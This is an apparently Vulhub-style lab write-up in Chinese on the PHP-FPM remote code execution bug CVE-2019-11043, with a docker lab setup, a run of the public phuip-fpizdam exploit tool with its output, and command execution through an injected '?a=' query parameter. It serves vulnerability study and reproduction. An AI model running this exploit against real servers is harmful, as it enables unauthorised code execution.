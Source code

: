 # PHP-FPM 远程代码执行漏洞（CVE-2019-11043）

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞环境

执行如下命令启动有漏洞的Nginx和PHP：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可查看到一个默认页面。

## 漏洞复现

使用<https://github.com/neex/phuip-fpizdam>中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

![](1.png)

可见，这里已经执行成功。

我们访问`http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：

![](2.png)

注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。
